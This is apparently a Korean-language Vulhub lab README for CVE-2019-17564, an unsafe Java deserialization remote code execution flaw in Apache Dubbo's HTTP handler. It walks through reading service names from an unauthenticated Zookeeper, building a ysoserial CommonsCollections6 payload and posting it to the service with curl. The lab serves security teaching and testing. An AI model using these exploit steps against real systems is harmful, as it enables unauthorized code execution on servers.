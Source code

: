 # CVE-2019-17564

Apache Dubbo는 java 기반의 고성능 오픈 소스 RPC 프레임워크입니다.

AApache Dubbo는 다양한 프로토콜을 지원하며, HTTP 프로토콜 핸들러는 Spring Framework의 'org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter` 래퍼(wrapper) 형태입니다.

Spring Framework의 보안 경고는 안전하지 않은 Java 역직렬화(deserialization)가 `HttpInvokerServiceExporter`에 기반하며, 이는 RCE 취약점으로 이어질 수 있습니다. :

> 경고: 안전하지 않은 Java 역직렬화에 의한 취약점을 주의하세요:조작된 입력 스트림은 의도치 않은 명령어로 이어질 수 있습니다. 따라서, HTTP 호출자(Invoker) 엔드포인트를 비신뢰 환경 및 사용자에게 노출하지 마십시오. 개인 서비스 간의 HTTP 호출자 노출은 가능합니다. 일반적으로 JSON 등의 다른 메시지 포맷 사용을 강력하게 권고합니다.

해당 취약점은 Apache Dubbo 2.7.4와 이전 버전에 적용되며, Dubbo 2.7.5부터는 `HttpInvokerServiceExporter`를 `com.googlecode.jsonrpc4j.JsonRpcServer`로 대체했습니다.

## 참고문헌 링크

- https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/HttpInvokerServiceExporter.html
- https://www.anquanke.com/post/id/198747
- https://paper.seebug.org/1128/

## 취약한 애플리케이션

하기 내용과 같이 명령어를 실행하여 Apache Dubbo 2.7.3을 실행합니다.

```
docker compose up -d
```

서비스 실행 후 ``http://your-ip:8080``에 접속할 경우,  에러 페이지 500을 기본적으로 반환합니다.

## 익스플로잇 단계 (Exploit)

해당 취약점을 사용하기 전, RPC의 이름을 반드시 알아야 합니다.

Vulhub는 8080 포트와 2181 포트를 열어두고 있으며, 2181 포트는 Zookeeper를 위한 포트입니다. [Zookeeper](https://zookeeper.apache.org/)를 다운로드한 후, **zkCli** 스크립트를 이용하여 인증되지 않은 Zookeeper 서버에 연결할 수 있습니다. :

```
./zkCli -server target-ip:2181
```

연결 후, 모든 노드에 'ls'를 적용할 수 있는 대화형 콘솔을 사용할 수 있습니다. 해당 콘솔은 Dubbo 관련 구성도 포함합니다.

![](1.png)

`org.vulhub.api.CalcService` RPC 인터페이스를 사용하세요. [ysoserial](https://github.com/frohoff/ysoserial)를 통해 `CommonsCollections6` 페이로드를 생성하고, `http://your-ip:8080/org.vulhub.api.CalcService`에 POST 본문의 형태로 발송하십시오.

```
java -jar ysoserial.jar CommonsCollections6 "touch /tmp/success" > 1.poc
curl -XPOST --data-binary @1.poc http://your-ip:8080/org.vulhub.api.CalcService
```

![](2.png)

컨테이너 접속 후, `touch /tmp/success` 명령어가 성공적으로 수행됨을 확인할 수 있습니다.

![](3.png)

